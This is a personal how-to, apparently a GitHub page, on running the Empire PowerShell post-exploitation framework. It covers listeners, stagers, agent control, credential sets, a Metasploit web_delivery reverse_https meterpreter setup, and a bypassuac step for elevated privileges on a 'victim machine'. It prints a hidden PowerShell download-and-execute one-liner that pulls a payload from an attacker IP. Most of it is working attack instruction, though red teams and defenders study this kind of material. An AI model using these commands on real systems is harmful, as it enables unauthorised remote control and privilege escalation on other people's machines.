 #Empire
[Empire](https://github.com/adaptivethreat/Empire) is a "pure PowerShell post-exploitation agent built on cryptologically-secure communications and a flexible architecture."

Some links that helped me create my write-up below:

* [https://attackerkb.com/Powershell/Powershell_Empire](https://attackerkb.com/Powershell/Powershell_Empire)
* [https://enigma0x3.net/2016/03/15/phishing-with-empire/](https://enigma0x3.net/2016/03/15/phishing-with-empire/)

###Install

The [getting started guide](http://www.powershellempire.com/?page_id=110) walks you through a basic install, but I found afterwards that my fresh Ubuntu droplet from Digital Ocean coughed up this error when I ran `./empire`:

>Traceback (most recent call last):

>File "./empire", line 6, in <module>

>from OpenSSL import SSL

>ImportError: No module named OpenSSL

Once I did a `sudo apt-get install python-openssl` then everything ran like a champ.

###Launch a listener
1. Type `listeners` and hit **Enter**
2. Setup an HTTP listener (for example) with `set Host http://your.local.ip.address` (tab completion works!)
3. Type `info` and hit Enter to confirm the listener is good to go.
4. Type `run` to run it

###Configure a stager
1. Type `usestager` and then hit **Tab** to see your options. I like the simple `usestager launcher` for a simple PowerShell one-liner
2. Assign the stager to a configured listener by typing `use Listener NAME-OF_LISTENER`
3. Type `generate` to actually generate it.

###Manage connected machines
Once you get a "bite" type `agents` to see connected machines.  Then do `interact NAME-OF-MACHINE` to begin interacting with it.

###Establish credential sets
I followed [this page](http://www.powershellempire.com/?page_id=114) to figure out how to add/edit credential sets into Empire so they're easily "pluggable" into Empire modules without having to type them every time.

###Create a secondary meterpreter listener
Follow [this article](http://www.powershellempire.com/?page_id=137) for more info, but basically in the `listeners` do a `set Host http://whatever.the.host.is` and `set Type meter`.  Then type `execute` and `list` to see your new listener.

Now on your Kali/Metasploit box, run the following commands to "catch" your incoming shell:

	use exploit/multi/script/web_delivery
	unset all
	set srvhost 0.0.0.0
	set srvport 80
	set lhost MY.PUBLIC.IP.ADDRESS
	set lport 443
	set target 2
	set payload windows/x64/meterpreter/reverse_https
	exploit -j

This will give you a PowerShell one-liner with something like:

`powershell.exe -nop -w hidden -c $c=new-object net.webclient;$c.proxy=[Net.WebRequest]::GetSystemWebProxy();$c.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $c.downloadstring('http://your-public-ip-address/V23fasdfg4rP5XBryb');
`
Launch the one-liner and you should be in happy shell land!

###Elevating privs
Once you've figured out a way to make your limited account a local admin, here's how you can make your victim machine connect to you *again* but this time with more privs!

1. While interacting with your agent, issue the command `bypassuac NAME-OF-LISTENER`.  So for example, my listener with my initial shell was called `test` so I issued `bypassuac test`
2. You should see a "new" agent connect to your listener, but this one has a *`*`* by it, indicating it is running w/elevated privs!!!